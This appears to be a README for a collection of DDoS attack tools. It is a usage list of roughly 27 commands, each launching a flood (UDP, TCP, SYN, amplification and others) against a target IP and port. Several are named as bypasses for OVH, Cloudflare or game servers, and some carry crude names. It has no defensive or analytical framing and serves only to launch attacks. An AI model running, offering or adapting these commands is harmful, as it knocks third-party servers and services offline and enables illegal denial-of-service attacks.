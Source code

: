 How to use :

X-STD : sudo ./X-STD %ip% %port%

SSA : sudo ./ssa %ip%

ETC : sudo ./etc %ip% %port%

OVH : sudo ./ovh %ip% %port% 9999 0 9999

OVH-V2 : sudo ./ovhbypass2 %ip% %port% 999999 udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 999999 ack

HEX : sudo ./HEX OVH %ip% %port% 999999

NUKE-BYPASS : sudo ./HiperOVH %ip% %port%

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 999999

ETHERA : sudo ./ETHERA %ip% %port%

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 999999

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 999999

R4P3 : sudo ./gre %ip% 10 -1 999999

NFO : sudo ./NFO %ip% %port% 10 -1 999999

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 999999

UDP-BYPASS : sudo perl UDP-BYPASS.pl %ip% 999999

NULL : sudo perl UDP_NULL.pl %ip% 999999

PATH : sudo perl UDP_BPSS.pl %ip% %port% 5500 9999

UDP-MIX : sudo perl UDP_MIX.pl %ip% 9999

TCP_NUKE : sudo perl TCP_VOX.pl %ip% 9999

OVH-RAPE : sudo perl OVHBYPASS.pl %ip% %port% 9999

GAME : sudo ./GAME-CRASH %ip% %port%

AMP : sudo perl amp.pl %ip% %port% 5500 9999

Twiks : sudo ./Twiks %ip% %port%

35 : sudo perl 35.pl %ip% %port% 1000 300

korkut : sudo ./korkut2 %ip% %port% 10 -1 9999
